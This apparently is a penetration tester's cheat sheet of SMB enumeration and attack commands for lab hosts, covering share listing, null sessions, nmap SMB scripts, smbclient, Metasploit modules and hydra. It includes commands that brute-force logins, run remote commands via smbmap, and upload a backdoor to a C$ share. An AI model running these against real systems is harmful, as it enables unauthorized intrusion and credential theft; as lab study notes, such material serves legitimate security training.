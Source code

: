 Access shares, got user name, brute force user and login again with bruteforced users.

Tips:- enum users and later brute force

## **`Listing Shares`**

- nmap --script smb-enum-shares.nse -p445 192.144.106.3
- auxiliary/scanner/smb/smb_enumshares
- enum4linux -S 192.144.106.3
- smbclient -L 192.144.106.3 -N

If username and password is provided, more enum can be done…

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/272c99bf-b353-4e45-a07f-42dcb1dd067c/98c54993-d95a-4c6a-b67a-73fd7ca40dab/image.png)

## **`NULL SESSION`**

rpcclient -U "" -N 192.126.66.3

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/272c99bf-b353-4e45-a07f-42dcb1dd067c/509a3d9b-3ec1-4f4c-a718-4fb7db20e723/Untitled.png)

srvinfo = gives server info in RPC CLIENT

enumdomusers = enum users

lookupnames admin = sid of admin

## **`ENUM4LINUX`**

**`enum4linux -a 1.1.1.1 = Automated script for enumuration`**

## **`NMAP`**

- **`ls -al /usr/share/nmap/scripts/ | grep smb`**
- nmap -p 445 --script smb-os-discovery 10.10.125.84
- **`nmap -p 445 --script smb* 10.10.125.84` ⇒runs all script**
- nmap -p 445 --script smb-enum-shares 10.10.125.84 ⇒shares
- nmap -p445 --script smb-protocols 10.0.17.200
- nmap -p445 --script smb-security-mode 10.0.17.200

## **`Enum Using Credentials`**

- nmap -p445 --script smb-security-mode 10.0.17.200
- nmap -p445 --script smb-enum-shares --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- nmap -p445 --script smb-enum-users --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- nmap -p445 --script smb-server-stats --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- nmap -p445 --script smb-enum-domains--script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- --script smb-enum-groups
- --script smb-enum-domains
- --script smb-enum-services
- nmap -p445 --script smb-enum-shares,smb-ls --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87

## **`SMBCLIENT`**

smbclient -L \\\\192.126.66.3\\ -N =Nullsession, list shares

smbclient -L \\\\[10.10.125.84](notion://10.10.125.84/)\\=list shares

smbclient \\\\[10.10.125.84](notion://10.10.125.84/)\\ADMIN$ = connect to the share with annon

smbclient \\\\[10.10.125.84](notion://10.10.125.84/)\\IPC$ = connect to IPC

smbclient [//192.208.227.3/public](notion://192.208.227.3/public) -N => connected

smbclient [//10.10.125.84/BillySMB](notion://10.10.125.84/BillySMB) ⇒ To access SMB Shares

smbclient [//10.10.125.84/BillySMB](notion://10.10.125.84/BillySMB) ⇒ To access SMB Shares

smbclient -L 192.212.251.3 -U jane ⇒ List Shares, better give passsword

smbclient [//192.212.251.3/jane](notion://192.212.251.3/jane) -U jane ⇒ Access jane share using username jane.

**`TIP:` Sometime jane share wont be listed but can be viewed using above command.**

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/272c99bf-b353-4e45-a07f-42dcb1dd067c/66a30db5-971f-49c1-8f20-71dae61e5c7b/Untitled.png)

GET and PUT command will work for downloading and uploading files.

## **`SMBMap:`**

Allows users to enumerate samba share Allows file upload/download/delete Permission enumeration (writable share, meet Metasploit) etc.

- smbmap -u guest -p "" -d . -H 10.10.125.84 =shares also
- smbmap -u administrator -p smbserver_771 -d . -H 10.0.28.123 = admin will have more privilege
- smbmap -H 10.0.28.123 -u administrator -p smbserver_771 -x 'ipconfig’ = can be used to run commands
- smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -L = List drives on local host
- smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -r 'C$’ = List content of C
- smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' --upload '/root/backdoor' 'C$\backdoor' ⇒ Upload File in C drive
- smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -r 'C$’ ⇒ Verify upload
- smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' --download 'C$\flag.txt' ⇒ Download File
- smbmap -H 192.212.251.3 -u admin -p password1 ⇒ ONCE CRED IS KNOWN

## **`SAMBA`**

nmap --script smb-os-discovery.nse -p 445 192.126.66.3

auxiliary/scanner/smb/smb_version

auxiliary/scanner/smb/smb_enumusers

auxiliary/scanner/smb/smb_enumshares

## **`BRUTEFORCE`**

- auxiliary/scanner/smb/smb_login
- hydra -l admin -P <filename> <ip> <protocol(smb)>
    - hydra -l admin -P /usr/share/password.txt 10.10.10.10 smb